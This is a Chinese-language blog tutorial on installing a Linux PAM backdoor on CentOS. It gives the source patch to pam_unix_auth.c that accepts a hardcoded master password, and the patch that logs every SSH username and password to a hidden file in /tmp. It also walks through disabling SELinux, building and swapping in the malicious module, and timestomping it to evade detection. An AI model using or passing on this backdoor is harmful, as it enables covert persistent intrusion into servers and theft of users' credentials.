 ```yaml
---
title: "Linux PAM后门：窃取ssh密码及自定义密码登录"
date: 2020-12-12T12:43:41+08:00
draft: false
tags:
- 后门
- Linux
- PAM
series:
-
categories:
- 权限维持
---
```


PAM是Linux默认的ssh认证登录机制，因为他是开源的，我们可以修改源码实现自定义认证逻辑，达到记录密码、自定义密码登录、dns带外等功能。
<!--more-->

# 环境
- CentOS Linux release 7.8.2003 (Core)
- pam-1.1.8-23.el7.x86_64

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/f72e4dd9-c6d9-99cc-1fc9-e024fb7383c4.png)

centos需要关闭selinux，临时关闭`setenforce 0`。永久关闭需要修改`/etc/selinux/config`，将其中SELINUX设置为disabled。

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/ef43bd73-ba67-5cea-477e-998a635eea11.png)

# 自定义ssh密码
查看PAM版本`rpm -qa|grep pam`

下载对应源码:http://www.linux-pam.org/library/

```
wget http://www.linux-pam.org/library/Linux-PAM-1.1.8.tar.gz
tar zxvf Linux-PAM-1.1.8.tar.gz
```

安装gcc编译器和flex库

```
yum install gcc flex flex-devel -y
```

修改`Linux-PAM-1.1.8/modules/pam_unix/pam_unix_auth.c`源码实现自定义密码认证
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/adf5e1bd-40ba-db85-b278-5cffa3cc012d.png)

```c
/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
if(strcmp("fuckyou",p)==0){return PAM_SUCCESS;}
name = p = NULL;
```

编译生成so文件

```
cd Linux-PAM-1.1.8
./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
make
```

生成的恶意认证so路径在`./modules/pam_unix/.libs/pam_unix.so`。用它来替换系统自带的pam_unix.so。


因为系统不同位数不同，pam_unix.so的路径也不一样，尽量用find找一下。

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/ef2150a2-e47a-2176-0a86-e5c5ea45a3a9.png)

然后替换，注意先备份，万一恶意的so文件不可用就GG了。

```
cp /usr/lib64/security/pam_unix.so /tmp/pam_unix.so.bak
cp /root/Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so /usr/lib64/security/pam_unix.so
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/f694ecde-ce2b-f39d-432d-e37dbe9b72db.png)

此时先别急着断开ssh，先试一下能不能用我们设置的`fuckyou`密码登录。
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/b688494c-9801-6057-ae13-1193565b2b50.png)

成功登录，后门也就留好了。为了隐蔽，修改下pam_unix.so的时间戳。

```
touch pam_unix.so -r pam_umask.so
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/97c65717-cca6-f537-d5c4-2ca848b56c43.png)

# 记录密码
同样编辑`modules/pam_unix/pam_unix_auth.c`文件

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/d3d0be0a-87ff-f63c-f804-db96d8e0ee80.png)

```c
if(retval == PAM_SUCCESS){
    FILE * fp;
    fp = fopen("/tmp/.sshlog", "a");
    fprintf(fp, "%s : %s\n", name, p);
    fclose(fp);
}
```
ssh密码会被记录到/tmp/.sshlog中。编译并替换so

```bash
cd Linux-PAM-1.1.8
make clean && make
cp /root/Linux-PAM-1.1.8/modules/pam_unix/.libs/pam_unix.so /usr/lib64/security/pam_unix.so
```

此时登录ssh会记录密码
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/086a42af-396d-9035-155b-e3d7063b6769.png)


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**